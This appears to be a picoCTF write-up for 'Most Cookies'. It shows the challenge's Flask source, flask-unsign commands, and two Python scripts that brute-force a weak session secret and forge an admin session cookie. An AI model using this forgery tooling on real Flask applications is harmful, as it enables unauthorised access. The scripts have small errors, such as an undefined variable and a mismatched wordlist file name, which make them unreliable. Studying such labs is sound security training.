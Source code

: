 # URL
https://play.picoctf.org/practice/challenge/177
# Concept
* encoded cookies
* JWT (JSON web tokens)
* Flask cookies
# Method of solve
* this challenge lets us see the app's source code, written in Python
```
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "blank":
                        return render_template("index.html", title=title)
                else:
                        return make_response(redirect("/display"))
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/search", methods=["GET", "POST"])
def search():
        if "name" in request.form and request.form["name"] in cookie_names:
                resp = make_response(redirect("/display"))
                session["very_auth"] = request.form["name"]
                return resp
        else:
                message = "That doesn't appear to be a valid cookie."
                category = "danger"
                flash(message, category)
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

@app.route("/reset")
def reset():
        resp = make_response(redirect("/"))
        session.pop("very_auth", None)
        return resp

@app.route("/display", methods=["GET"])
def flag():
        if session.get("very_auth"):
                check = session["very_auth"]
                if check == "admin":
                        resp = make_response(render_template("flag.html", value=flag_value, title=title))
                        return resp
                flash("That is a cookie! Not very special though...", "success")
                return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
        else:
                resp = make_response(redirect("/"))
                session["very_auth"] = "blank"
                return resp

if __name__ == "__main__":
        app.run()
```
* Flask apps create cookies that look similar to JWTs, but are slightly different
* this application creates cookies that are signed with a secret that is the name of one of the cookies in the list of cookies in the code
* we can use a tool, like `flask-unsign` to create a cookie with the secret value `admin`, and send it back to the app to get the flag for the challenge
```
flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aIGZmQ.mNrs9hRTcfj4dt0NLK0Os_Auppo"
echo -n "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aIGZmQ.mNrs9hRTcfj4dt0NLK0Os_Auppo" > cookie.txt
```
* create the list of cookies by grabbing the list from the Python source code and putting in a file called `secret.txt`
* brute force the secret for the cookie with the following command:
```
flask-unsign --wordlist secrets.txt --unsign --cookie < cookie.txt
```
* use the secret we get from the brute-force and create the admin cookie with the command below
```
flask-unsign --sign --secret "fortune" --cookie "{'very_auth':'admin'}"
```
* copy the cookie and submit to the web app to get the flag
## Python Solution
* we can also use Python scripts to get the value of the secret key, then create a valid session cookie with the `admin` value
```
#!/usr/bin/env python3
'''
This script takes in a Flask token as an
argument and attempts to brute force the
valid secret key from the words on the
cookie list
'''
import sys, base64
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import BadSignature, SignatureExpired

cookie_list = [
 "snickerdoodle","chocolate chip","oatmeal raisin","gingersnap","shortbread",
 "peanut butter","whoopie pie","sugar","molasses","kiss","biscotti","butter",
 "spritz","snowball","drop","thumbprint","pinwheel","wafer","macaroon","fortune",
 "crinkle","icebox","gingerbread","tassie","lebkuchen","macaron","black and white",
 "white chocolate macadamia"
]

def secret_test(secret):
    a=Flask(__name__)
    a.secret_key = secret
    return SecureCookieSessionInterface().get_signing_serializer(a)

def try_load(token, s):
    return s.loads(token)

if len(sys.argv)!=2:
    print("usage: ./script.py <session_cookie>"); sys.exit(1)
token = sys.argv[1].strip()

for cookie in cookie_list:
    s=secret_test(cookie)
    if s is None: continue
    try:
        d=try_load(token, s)
        print(cookie); print(d); sys.exit(0)
    except SignatureExpired:
        try:
            d=s.loads(token, max_age=None)
            print(k+" (expired)"); print(d); sys.exit(0)
        except Exception:
            pass
    except BadSignature:
        pass
print("no match"); sys.exit(2)
```
* the above script brute forces the valid secret key value
* the next script uses the secret key to encode data into the Flask cookie
```
#!/usr/bin/env python3
'''
This script takes in two arguments: 1) a secret key for
creating Flask session tokens, and 2) a cookie key / value
pair that we want to embed into the resulting Flask token
'''

import sys
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

if len(sys.argv) != 3:
    print("usage: python forge_session.py <secret> <key=value>")
    sys.exit(1)

secret = sys.argv[1]
pair = sys.argv[2]

if "=" not in pair:
    print("pair must be in form key=value")
    sys.exit(1)

k, v = pair.split("=", 1)

app = Flask(__name__)
app.secret_key = secret
s = SecureCookieSessionInterface().get_signing_serializer(app)
if s is None:
    print("Could not create serializer (is Flask installed?)")
    sys.exit(1)

session_dict = {k: v}
cookie = s.dumps(session_dict)
print(cookie)
```
